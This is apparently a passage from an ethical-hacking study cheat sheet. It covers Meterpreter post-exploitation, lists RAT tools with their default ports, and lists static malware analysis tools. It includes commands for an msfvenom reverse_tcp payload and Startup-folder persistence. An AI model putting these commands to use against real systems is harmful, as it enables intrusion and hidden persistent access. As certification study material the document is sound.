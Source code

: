 	meterpreter > ps
	meterpreter > migrate 4535 (pid acquired in ps like 4535 explorer.exe)
	
    # Maintain access with Startup
	meterpreter > cd “C:\\ProgramData\\Start Menu\\Programs\\Startup”
	meterpreter > pwd
	msfvenom -p windows/meterpreter/reverse_tcp lhost=<ip> lport=8080 -f exe > startup.exe
	
	upload /home/attacker/payload.exe	(in "Startup" folder)
	

## Malware Threats 07

    # Malware Creation
	nmap -p- <ip> -v
	
	njRAT		(Default port: 5552)
	TheefRAT	(Default port: 6703, ftp 2968)
	HTTP RAt	(Default port: 80)
	Mosucker
	ProRAT		(Default port: 5110)

	JPS Virus Maker
	virus.total.com

    # Static Malware Analysis
	https://www.hybrid-analysis.com
	BinText	(search string - file pos, memory pos)

	PEiD	(entrypoint, file offset, subsystem, linker info, .text etc...)

	DIE  [elf,exe]	(operating system, compiler,  architecture, mode, file name, size, entropy, entrypoint, operation window, pe header, pt_load, strings search, sha1, md5 etc ....)

	PE Explorer (machine, linker version, address of entry point, time date stamp, resource table, import address table, import table, .text, .rdata [section headers] etc......)

	Dependency walker (KERNEL32.DLL, ADVAPI32.DLL, WS2_32.DLL, MPR.DLL)

	IDA (Click text View on Right Click)
		Copy  to C:\Program Files\IDA Freeware 7.7
		View -> Graph -> Flow Chart
		View -> Graph -> Function Calls
		
		Hex-view, Structures, Enums etc..

	OllyDbg 
		View -> Log Data, Executable modules, Memory, Threads

	Ghidra
		Import file -> (Double click executable) -> Analyze
			(Important is Import Result Summary)	//this will popup immediately after importing file.
			